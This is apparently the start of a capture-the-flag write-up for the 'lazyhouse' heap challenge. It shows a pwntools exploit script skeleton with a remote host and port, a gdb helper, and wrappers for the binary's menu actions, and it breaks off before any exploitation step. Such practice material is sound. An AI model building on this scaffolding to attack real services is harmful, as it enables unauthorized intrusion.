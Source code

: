 Let's start out, as always, by writing up some methods in our exploit script to ease exploitation:
```python
#!/usr/bin/env python2

from pwn import *

BINARY = './lazyhouse'
HOST, PORT = '3.115.121.123', 5731

elf = ELF('./lazyhouse')
libc = ELF('./libc.so.6')

def start():
  if not args.REMOTE:
    print "LOCAL PROCESS"
    return process(BINARY)
  else:
    print "REMOTE PROCESS"
    return remote(HOST, PORT)

def get_base_address(proc):
  return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

def debug(breakpoints):
    script = "handle SIGALRM ignore\n"
    PIE = get_base_address(p)
    script += "set $_base = 0x{:x}\n".format(PIE)
    for bp in breakpoints:
        script += "b *0x%x\n"%(PIE+bp)
    gdb.attach(p,gdbscript=script)

def buy(idx, size, content):
  p.sendlineafter(': ', '1')
  p.sendlineafter(':', str(idx))
  p.sendlineafter(':', str(size))
  p.sendafter(':', content)

def show(idx):
  p.sendlineafter(': ', '2')
  p.sendlineafter(':', str(idx))

def sell(idx):
  p.sendlineafter(': ', '3')
  p.sendlineafter(':', str(idx))

def upgrade(idx, content):
  p.sendlineafter(': ', '4')
  p.sendlineafter(':', str(idx))
  p.sendafter(':', content)

def super_house(content):
  p.sendlineafter(': ', '5')
  p.sendafter(':', content)

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

p = start()

if args.GDB:
  debug([])
```
